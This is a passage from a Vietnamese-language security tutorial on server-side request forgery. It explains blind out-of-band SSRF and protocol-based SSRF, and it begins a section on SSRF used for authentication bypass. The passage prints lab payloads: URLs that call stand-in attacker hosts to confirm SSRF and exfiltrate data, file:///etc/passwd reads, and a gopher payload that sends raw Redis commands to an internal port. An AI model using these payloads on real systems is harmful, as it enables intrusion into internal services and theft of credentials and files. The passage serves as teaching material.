 **Hậu quả điển hình:** lộ metadata (credentials), nội dung admin, config, database consoles.


## C. Blind SSRF / OOB SSRF

**Mô tả:** server không trả nội dung fetch cho user — attacker không thấy kết quả trực tiếp. Thay vào đó attacker dùng một server mà họ kiểm soát và chờ server mục tiêu thực hiện các request (DNS/HTTP) tới attacker → exfiltration signal.

**Ví dụ workflow:**

* Attacker cung cấp URL: `http://attacker-server.com/collect?tag=1`
* Target server request URL → attacker server log thấy request → chứng thực SSRF "vulnerable".

**OOB payload (lab):**

```
https://victim/fetch?url=http://attacker-server.com/pwn
```

Hoặc dùng DNS exfil: `http://<random>.attacker-dns.com/` để nhìn thấy DNS lookup.

**Hậu quả:** phát hiện SSRF ngay cả khi response được che; exfiltrate nhỏ dữ liệu bằng cách encode vào path/params.


## D. Protocol-based SSRF (non-HTTP: file:/, gopher:, ftp:, smb:, dict:, ldap:)

**Mô tả:** một số HTTP client / URL handlers hỗ trợ nhiều scheme — attacker dùng scheme khác để lạm dụng dịch vụ khác (file, gopher → raw TCP, ldap → dùng để query LDAP).

**Ví dụ thực tế:**

* `file:///etc/passwd` — server đọc file cục bộ và trả nội dung (nếu client/handler hỗ trợ file scheme).
* `gopher://127.0.0.1:6379/_<raw-redis-protocol>` — dùng gopher để gửi raw bytes tới Redis (có thể chạy AUTH, GET/SET).
* `ftp://attacker/` — có thể trigger outbound FTP connections (logs).
* `ldap://127.0.0.1:389/...` — query LDAP nội bộ.

**Payload mẫu (lab):**

```
/fetch?url=file:///etc/passwd
/fetch?url=gopher://127.0.0.1:6379/_SET%20key%20value%0d%0a
```

*(gopher requires encoding raw protocol)*

**Hậu quả:** tương tác với dịch vụ nội bộ không phải HTTP; có thể thao tác database, cache, v.v.


## E. SSRF leading to Authentication Bypass / Privileged Actions

**Mô tả:** server có thể sử dụng internal endpoint với cookie/session/token riêng — attacker ép server gọi endpoint nội bộ để thực hiện hành động có quyền (ví dụ admin-only API) dùng session của server.
